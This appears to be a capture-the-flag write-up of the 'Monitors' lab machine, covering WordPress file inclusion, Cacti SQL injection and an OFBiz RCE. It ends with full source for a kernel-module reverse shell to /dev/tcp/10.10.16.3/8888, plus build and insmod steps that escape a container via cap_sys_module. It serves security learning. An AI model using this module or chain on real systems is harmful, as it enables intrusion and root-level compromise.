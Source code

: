 # Monitors

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (166) (2).png" alt=""><figcaption></figcaption></figure>

We can add `monitors.htb` to our `/etc/hosts` file.

### Wordpress Site

Port 80 hosts a Wordpress site.

<figure><img src="../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

We can run `wpscan` to enumerate the plugins and version, and this finds that **wp-with-spritz** is being used.

<figure><img src="../../../.gitbook/assets/image (120) (2).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to RFI.

<figure><img src="../../../.gitbook/assets/image (150) (1).png" alt=""><figcaption></figcaption></figure>

We can confirm this by viewing the `/etc/passwd` file.

<figure><img src="../../../.gitbook/assets/image (5) (2) (3) (2).png" alt=""><figcaption></figcaption></figure>

After further enumeration, there's nothing else that I could find. So we probably need to read more files within this machine. I could not read any user files, so I tried to check some configuration files for the server at `/etc/apache2/sites-enabled/000-default.conf`.

<figure><img src="../../../.gitbook/assets/image (14) (2) (2) (3).png" alt=""><figcaption></figcaption></figure>

We can find a new domain at `cacti-admin.monitors.htb`. Afterwards, I also read the Wordpress configuration files at `/var/www/wordpress/wp-config.php` to find a password.

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

### Cacti&#x20;

Upon visting this separate domain, we are greeted by another login page:

<figure><img src="../../../.gitbook/assets/image (60) (3).png" alt=""><figcaption></figcaption></figure>

This version of Cacti is old and vulnerable to loads of exploits. We can login with the credentials for Wordpress. Afterwards, we can use an exploit that uses SQL injection to gain a reverse shell.

<figure><img src="../../../.gitbook/assets/image (125) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

We now have remote access as the user `marcus` and can capture the user flag.

## Privilege Escalation

### Docker Image

In the user's directory, we find a `note.txt` file that points towards a docker image being present.

<figure><img src="../../../.gitbook/assets/image (17) (1) (6).png" alt=""><figcaption></figcaption></figure>

I read the configuration files at `/etc/containerd`, and found that the `root` user was running the image.

<figure><img src="../../../.gitbook/assets/image (20) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can check the open ports of this machine via `netstat -tulpn` to see other open ports.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5).png" alt=""><figcaption></figcaption></figure>

Port 8443 was open and we could access it. The next step is port forwarding.

### OfBiz RCE

I used `ssh -L 8443:localhost:8443 marcus@monitors.htb` to port forward after dropping my public key in the `authorized_keys` folder. Then, I used `gobuster` to find hidden directories present:

<figure><img src="../../../.gitbook/assets/image (68) (3).png" alt=""><figcaption></figcaption></figure>

Visting any of these would redirect us to `/content/control/main`, where there is a login page present.

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

The bottom of the page shows that this is running Apache OFBiz Release 17.12.01, which is vulnerable to loads of exploits, including an RCE one.

<figure><img src="../../../.gitbook/assets/image (61) (4).png" alt=""><figcaption></figcaption></figure>

We can follow the PoC here to execute it:

{% embed url="https://github.com/g33xter/CVE-2020-9496" %}

Then, we would gain a shell as root in the container.

<figure><img src="../../../.gitbook/assets/image (157) (4).png" alt=""><figcaption></figcaption></figure>

### Sys Module Exploit

There was nothing much within this machien that was interesting. I decided to check the capabilities of the container and found that `cap_sys_module` was enabled. This allows us to escape the container.

First we need to create a new Kernel module with some C code:

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.3/8888 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Then we need we need to create a `Makefile`:

```
obj-m +=reverse-shell.o

all:
        make -C /lib/modules/4.15.0-generic/build M=/root modules

clean:
        make -C /lib/modules/4.15.0-generic/build M=/root clean
```

Get them both into the root directory and start listening on a port. Afterwards, we can run `make` and `insmod reverse-shell.ko`. This would trigger the reverse shell, and give us a shell as `root`.

<figure><img src="../../../.gitbook/assets/image (32) (5).png" alt=""><figcaption></figcaption></figure>
